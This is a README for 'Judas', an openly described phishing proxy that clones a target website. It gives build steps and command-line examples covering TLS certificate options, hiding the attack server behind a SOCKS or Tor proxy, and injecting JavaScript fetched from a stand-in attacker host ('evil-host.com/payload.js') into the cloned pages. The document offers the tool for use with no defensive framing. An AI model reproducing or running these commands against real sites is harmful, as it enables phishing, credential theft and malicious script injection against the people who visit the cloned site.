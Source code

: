 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build -o judas cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website.
If you want to listen using HTTP, pass the ```--insecure``` flag.
If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

```
./judas --target https://target-url-with-self-signed-cert.com --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```
